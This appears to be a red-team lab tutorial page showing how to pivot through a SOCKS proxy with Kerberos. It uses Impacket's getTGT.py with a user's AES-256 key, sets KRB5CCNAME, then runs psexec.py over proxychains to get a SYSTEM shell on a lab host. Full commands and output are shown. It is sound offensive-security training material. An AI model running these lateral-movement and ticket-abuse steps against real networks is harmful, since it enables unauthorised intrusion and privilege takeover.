 
## Pivoting with Kerberos

In the previous examples, we leveraged both plaintext credentials (with <mark style="color:yellow;">`Impacket`</mark> and <mark style="color:yellow;">`runas /netonly`</mark>) and NTLM (with Mimikatz) to authenticate to resources over the **SOCKS** proxy.

However, it is possible to use Kerberos tickets as well.

Using <mark style="color:yellow;">`Impacket`</mark> through <mark style="color:yellow;">`proxychains`</mark> is a popular way to do so.

**First, let's use&#x20;**<mark style="color:yellow;">**`getTGT.py`**</mark>**&#x20;to request a TGT for&#x20;**<mark style="color:yellow;">**`jking`**</mark>**&#x20;with their AES-256 hash:**

```
ubuntu@DESKTOP-3BSK7NO ~> proxychains getTGT.py -dc-ip 10.10.122.10 -aesKey 4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 dev.cyberbotic.io/jking
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.10:88-<><>-OK
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.10:88-<><>-OK
[*] Saving ticket in jking.ccache
```

{% hint style="info" %}
Be sure to use the fully qualified domain name, `dev.cyberbotic.io`, rather than the `NetBIOS` name, `DEV`.
{% endhint %}

This will automatically output the ticket in `ccache` format which can be used with other Impacket scripts. &#x20;

However, we must first create an environment variable called <mark style="color:green;">`KRB5CCNAME`</mark> that will point to the `ccache` file.

```
ubuntu@DESKTOP-3BSK7NO ~> export KRB5CCNAME=jking.ccache
```

**Now we can use&#x20;**<mark style="color:yellow;">**`psexec.py`**</mark>**&#x20;to get a SYSTEM shell on `WEB`:**

```
ubuntu@DESKTOP-3BSK7NO ~> proxychains psexec.py -dc-ip 10.10.122.10 -target-ip 10.10.122.30 -no-pass -k dev.cyberbotic.io/jking@web.dev.cyberbotic.io
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:445-<><>-OK
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.10:88-<><>-OK
[*] Requesting shares on 10.10.122.30.....
[*] Found writable share ADMIN$
[*] Uploading file rzBHyscR.exe
[*] Opening SVCManager on 10.10.122.30.....
[*] Creating service msin on 10.10.122.30.....
[*] Starting service msin.....
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:445-<><>-OK
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.10:88-<><>-OK
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:445-<><>-OK
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.10:88-<><>-OK
[!] Press help for extra shell commands
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:445-<><>-OK
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.10:88-<><>-OK
Microsoft Windows [Version 10.0.20348.887]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> hostname && whoami
```
